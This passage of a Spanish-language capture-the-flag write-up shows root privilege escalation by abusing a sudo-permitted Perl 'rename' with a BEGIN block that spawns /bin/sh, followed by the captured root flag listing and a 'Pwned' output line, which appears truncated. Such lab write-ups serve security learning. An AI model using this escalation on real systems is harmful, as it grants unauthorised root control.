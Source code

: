 como `head` mostró `#!/usr/bin/perl` significa que es la **implementación Perl** de `rename` (aka `prename`). Esa versión evalúa una expresión Perl que tú le pasas, y si la ejecutas con `sudo` como root puedes ejecutar código Perl arbitrario
Con eso puedes obtener **una shell root inmediata**
- `BEGIN{...}` es un bloque Perl que se ejecuta antes de procesar archivos.
- `system("/bin/sh")` lanza un shell (`/bin/sh`) **como root**
```bash
# Comando para escalar al usuario: ( root )
sudo /usr/bin/rename 'BEGIN{system("/bin/sh")}' /tmp/dummy
```

---

## Evidencia de Compromiso
Flag de **root**
```bash
# ls -l /root/root.txt
-rw-r--r-- 1 root root 32 Jun  7 12:11 /root/root.txt
```


```bash
# Captura de pantalla o output final
# echo -e "[*] Pwned: $(whoami)"
-e [*] Pwned: roo
```
